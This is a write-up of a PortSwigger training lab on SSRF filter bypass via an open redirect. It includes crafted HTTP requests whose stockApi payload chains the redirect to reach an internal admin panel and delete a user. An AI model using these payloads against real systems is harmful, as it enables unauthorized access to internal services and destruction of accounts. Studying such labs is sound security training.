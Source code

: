 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8f6cec54-dd55-49c7-be13-b836281b3ae0)


## Overview:

If the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

Suppose the application contains an open redirection vulnerability in which the following URL:

```http
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
returns a redirection to:

```http
http://evil-user.net
```

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.



## Solution :


### Finding a openredirect vuln -

In this lab, below the **check-stock** feature we have 2 new options which is `Return to list` & `Next product`. It is a good indication that there might be a redirection happening to some other page.

Clicking on `Next product` , our browser sends a *GET* request as below

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
Host: 0ada005b04660d8a820bf38e00030012.web-security-academy.net
Cookie: session=tCPCfXrz8JKmh5Pm8VORG7tKUvRB3Zbn; session=IQ2nI1FTVgV2PFdQP0KQmVYXogYiya4h
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
We can see that there is a `path=` parameter which redirects to */product* page.

Let's try to test if there is **openredirect vulnerability** in this path parameter by trying to access the backend server at **http://192.168.0.12:8080**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0558b645-9fa1-4f24-b67b-dc77a62c73f1)

We get a `302 redirect` which confirms the openredirect vulnearbility.

### Access the /admin panel of backend server

When we click **check stock** feature, a *GET* request is sent to */product/stock* with a stockAPI parameter (`stockApi=/product/stock/check?productId=2&storeId=1`) in the body of the request.

```http
POST /product/stock HTTP/2
Host: 0ada005b04660d8a820bf38e00030012.web-security-academy.net
Cookie: session=tCPCfXrz8JKmh5Pm8VORG7tKUvRB3Zbn; session=IQ2nI1FTVgV2PFdQP0KQmVYXogYiya4h
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Now provide the redirect path `/product/nextProduct?path=http://192.168.0.12:8080/admin` to the stockApi parameter(remove the `currentProductId=1` from the full uri `/product/nextProduct?currentProductId=1&path=/product?productId=2`).

We get a `200 OK` response & we can able to access the admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3ee63dbb-39a6-4414-94ee-91bb87fbde05)

Lets delete the user carlos to solve the lab - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/86af38ae-63d5-4097-b573-5ed15655b3d1)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b4f7cae9-c570-498a-baae-d5dfecf71697)




































